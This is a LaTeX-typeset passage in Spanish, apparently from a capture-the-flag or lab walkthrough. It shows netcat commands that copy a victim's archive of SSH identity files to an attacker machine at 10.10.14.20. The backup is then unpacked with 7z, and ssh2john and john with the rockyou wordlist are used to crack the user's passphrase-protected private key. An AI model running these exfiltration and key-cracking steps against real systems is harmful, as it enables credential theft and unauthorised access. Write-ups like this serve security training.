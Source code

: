 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\begin{document}
Intentamos ver si esta en el directorio \texttt{/home/david/public\_www} y effectivamente. hay un fichero comprimido y nos vamos a transferir
a nuestro equipo de attaquante.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  En el equipo de attaquante

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443 }\OperatorTok{>}\NormalTok{ comprimido.tgz}
\end{Highlighting}
\end{Shaded}
\item
  En el equipo victima

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ 10.10.14.20 443 }\OperatorTok{<}\NormalTok{ backup-ssh-identity-files.tgz}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Descomprimimos el archivo con el commando

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{7z}\NormalTok{ l comprimido.tgz}
\ExtensionTok{7z}\NormalTok{ x comprimido.tgz}
\ExtensionTok{7z}\NormalTok{ l comprimido.tar}
\ExtensionTok{7z}\NormalTok{ x comprimido.tar }
\end{Highlighting}
\end{Shaded}

Hay la clave privado del usuario david pero esta protegida por contraseña. La tenemos que romper.

\hypertarget{ssh2john}{%
\subsection*{ssh2john}\label{ssh2john}}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{ssh2john.py}\NormalTok{ id_rsa }\OperatorTok{>}\NormalTok{ hash}
\ExtensionTok{john}\NormalTok{ --wordlist=/usr/share/wordlists/rockyou.txt hash}
\end{Highlighting}
\end{Shaded}
\end{document}
